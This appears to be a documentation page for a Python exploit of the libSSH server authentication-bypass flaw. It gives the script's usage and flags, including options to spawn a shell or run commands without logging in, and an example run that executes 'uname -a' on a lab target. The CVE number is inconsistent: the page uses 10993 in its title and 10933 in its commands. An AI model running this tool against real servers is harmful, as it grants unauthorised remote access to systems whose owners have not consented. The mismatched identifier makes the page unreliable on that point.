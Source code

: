 # CVE-2018-10993

CVE-2018-10993 libSSH authentication bypass exploit

A vulnerability was found in libssh's server-side state machine before versions 0.7.6 and 0.8.4. A malicious client could create channels without first performing authentication, resulting in unauthorized access.

- [cve-2018-10993.py](../assets/files/cve-2018-10993.py)

## Usage

```bash
python3 cve-2018-10933.py [OPTIONS] <target>
```

## Flags

```bash
$ python3 cve-2018-10933.py -h

    :: CVE-2018-10993 libSSH authentication bypass exploit.
    Tries to attack vulnerable libSSH libraries by accessing SSH server without prior authentication.
    Mariusz B. / mgeeky '18, <mb@binary-offensive.com>
    v0.1

usage: cve-2018-10933.py [-h] [-p PORT] [-s] [-c COMMAND] [--logfile LOGFILE]
                         [-v] [-d]
                         host

If there was neither shell nor command option specified - exploit will switch
to detect mode yielding vulnerable/not vulnerable flag.

positional arguments:
  host                  Hostname/IP address that is running vulnerable libSSH
                        server.

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  libSSH port
  -s, --shell           Exploit the vulnerability and spawn pseudo-shell
  -c COMMAND, --command COMMAND
                        Execute single command.
  --logfile LOGFILE     Logfile to write paramiko connection logs
  -v, --verbose         Display verbose output.
  -d, --debug           Display debug output.
```

## Examples

```bash
$ python3 cve-2018-10933.py 192.168.56.100 -v -c 'uname -a'

    :: CVE-2018-10993 libSSH authentication bypass exploit.
    Tries to attack vulnerable libSSH libraries by accessing SSH server without prior authentication.
    Mariusz B. / mgeeky '18, <mb@binary-offensive.com>
    v0.1

[+] Connected to the target: 192.168.56.100:22
[?] Obtained banner: "SSH-2.0-libssh_0.8.3"
[+] Target seems to be VULNERABLE!
[?] Connecting with 192.168.56.100:22 ...
[+] Connected.

$ uname -a
Linux vulnerable 3.14.1-pentesterlab #1 SMP Sun Jul 6 09:16:00 EST 2014 i686 GNU/Linux
```

## References

- [Github](https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d)
